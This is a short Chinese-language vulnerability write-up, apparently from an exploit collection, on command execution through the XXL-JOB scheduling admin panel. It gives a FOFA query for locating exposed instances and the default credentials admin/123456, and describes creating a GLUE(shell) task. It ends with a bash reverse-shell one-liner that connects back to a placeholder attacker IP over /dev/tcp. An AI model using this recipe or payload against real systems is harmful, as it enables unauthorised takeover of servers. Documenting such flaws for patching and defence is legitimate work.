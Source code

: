 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## FOFA

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101915543.png)

点击 GLUE IDE编辑脚本



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101915236.png)



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101915343.png)



执行探测出网，和任务调用是否可执行



反弹一个shell



```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101915912.png)